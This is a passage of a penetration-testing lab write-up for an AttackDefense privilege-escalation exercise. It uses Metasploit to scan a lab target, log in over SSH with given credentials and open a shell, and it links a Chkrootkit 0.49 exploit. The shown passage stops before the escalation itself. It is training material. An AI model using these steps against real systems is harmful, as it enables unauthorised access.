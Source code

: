 ------

## Lab 2 - Privilege Escalation

> 🔬 [Privilege Escalation - Rootkit Scanner](https://attackdefense.com/challengedetails?cid=1396)
>
> - Target IP: `192.15.244.3`
> - Exploit a vulnerable **Rootkit Scanner** and escalate privileges to root user
> - [Chkrootkit 0.49 - Local Privilege Escalation](https://www.exploit-db.com/exploits/33899)
> - SSH Credentials: `jackie`:`password`

```bash
ip -br -c a
	192.15.244.2/24
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.15.244.3
setg RHOST 192.15.244.3
workspace -a Linux_Privesc
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.15.244.3
```

```bash
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
```

### Exploitation - SSH

```bash
search ssh_login
use auxiliary/scanner/ssh/ssh_login
options
set USERNAME jackie
set PASSWORD password
run
```

```bash
sessions
	1 shell unknown  SSH jackie:password (192.15.244.3:22)
sessions 1
/bin/bash -i
pwd
	/home/jackie
whoami
	jackie

cat /etc/*issue
	Ubuntu 18.04.3 LTS \n \l
uname -r

# CTRL+Z
```
